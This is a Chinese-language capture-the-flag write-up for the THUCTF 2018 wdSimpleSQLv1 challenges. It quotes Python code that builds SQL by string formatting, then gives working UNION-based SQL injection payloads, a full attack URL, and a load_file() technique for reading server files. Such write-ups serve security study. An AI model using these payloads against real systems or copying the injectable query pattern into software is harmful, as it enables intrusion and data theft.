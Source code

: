 审计代码，发现有拼字符串

```Python
if cowid:
    sql = "select username, subject, blog, description from bigcows where username = '%s'" % cowid
    try:
        bigcow = self.db.query(sql)
    except Exception as e:
        # report error ...

    if len(bigcow) != 1:
        # report error ...

    try:
        description = base64.b64decode(bigcow[0]['description']).split('\n')
    except Exception as e:
        # report error ...

    self.render('bigcow.html', bigcow=bigcow[0], description=description)
```

注入

```mysql
abc' union select flag,333,244,5555 from flag#
```

即调用 SQL：

```mysql
select username, subject, blog, description from bigcows where username = 'abc' union
    select flag,333,244,5555 from flag#'
```
可得到 `flag`

也即访问

```URL
http://wdsimplesqlv1.thuctf2018.game.redbud.info:23334/bigcow?cowname=abc%27%20union%20select%20flag,333,244,5555%20from%20flag%23
```

## wdSimpleSQLv1-2

同理注入

```mysql
abc' union select @@secure_file_priv,333,244,5555#
```
可得到 `@@secure_file_priv` = `/var/lib/mysql-files/`

利用 `load_file()` 再次注入

```mysql
abc' union select load_file('/var/lib/mysql-files/flag'),333,244,5555#
```

可得到 `flag`
